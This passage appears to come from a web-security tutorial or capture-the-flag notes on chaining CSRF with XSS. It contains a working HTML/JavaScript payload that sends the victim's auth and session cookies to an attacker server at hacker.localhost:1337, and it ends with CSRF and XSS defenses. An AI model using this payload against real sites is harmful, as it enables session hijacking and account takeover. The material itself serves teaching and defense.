 #### **How It Works:**
- The attacker injects a persistent XSS payload into a comment or input field.
- When another user views the content, the CSRF is triggered.

---

### **D. CSRF to Steal Cookies Using XSS**
Combine CSRF with XSS to exfiltrate cookies such as `auth` and `session` from the target.

#### **Example Payload:**
```html
<html>
  <body>
    <script>
      // Construct the XSS payload to exfiltrate cookies via GET
      const xssPayload = '<script>' +
        'fetch("http://hacker.localhost:1337/log?cookies=" + encodeURIComponent(document.cookie));' +
      '</s' + 'cript>';

      // Construct the target URL with the malicious XSS payload
      const targetURL = 'http://challenge.localhost/ephemeral?msg=' + encodeURIComponent(xssPayload);

      // Redirect the admin's browser to the target URL
      window.location = targetURL;
    </script>
  </body>
</html>
```

#### **How It Works:**
- The CSRF payload injects an XSS vector that sends the victim’s cookies to the attacker’s server (`http://hacker.localhost:1337/log`).
- The attacker receives the `auth` and `session` cookies and can use them to impersonate the victim.

---

## **4. Defenses Against CSRF and XSS**

### **A. CSRF Protections:**
1. **CSRF Tokens:** Require a unique token for every state-changing request.
2. **SameSite Cookies:** Use `SameSite` attributes to prevent cookies from being sent with cross-origin requests.
3. **Referer and Origin Validation:** Check the `Referer` and `Origin` headers to validate request sources.

### **B. XSS Protections:**
1. **Input Validation and Sanitization:**
   - Escape `<`, `>`, `&`, and other special characters.
2. **Content Security Policy (CSP):**
   - Use CSP headers to block inline JavaScript and restrict script sources.
3. **HTTP-Only Cookies:**
   - Prevent JavaScript from accessing sensitive cookies.

---